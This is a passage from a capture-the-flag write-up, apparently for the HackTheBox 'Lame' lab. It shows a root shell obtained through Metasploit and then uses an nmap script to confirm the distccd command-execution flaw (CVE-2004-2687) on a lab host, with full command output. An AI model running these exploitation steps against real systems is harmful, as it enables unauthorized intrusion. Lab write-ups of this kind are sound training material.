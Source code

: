 ```shell

whoami
root
id
uid=0(root) gid=0(root)
quit
```
We get the shell as root with Metasploit as well.

## Distcc Exploit

During our enumeration phase we saw `Distccd v1` service was running on `Port 3632`

Distcc is a program designed to distribute compiling tasks across a network to participating hosts. It is comprised of a server, distccd, and a client program, distcc. Distcc can work transparently with ccache, Portage, and Automake with a small amount of setup.

A Quick google search reveals Distccd v1 is vulnerable to command execution and we also an have `nmap` script to test this vulnerability.

### nmap Script

If the script is not available in `nmap` package by default, you can download it from [**here**](https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse) and place it in the nmap scripts directory.

```shell
cfx:  ~/Documents/htb/lame
→ locate *.nse | grep -i distcc
/usr/share/nmap/scripts/distcc-cve2004-2687.nse

cfx:  ~/Documents/htb/lame
→ nmap --script distcc-cve2004-2687.nse -p3632 10.10.10.3
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 01:32 IST
Nmap scan report for 10.10.10.3
Host is up (0.22s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687:
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|
|     Disclosure date: 2002-02-01
|     Extra information:
|
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|
|     References:
|       https://distcc.github.io/security.html
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Nmap done: 1 IP address (1 host up) scanned in 4.37 seconds
```
### Daemon Shell

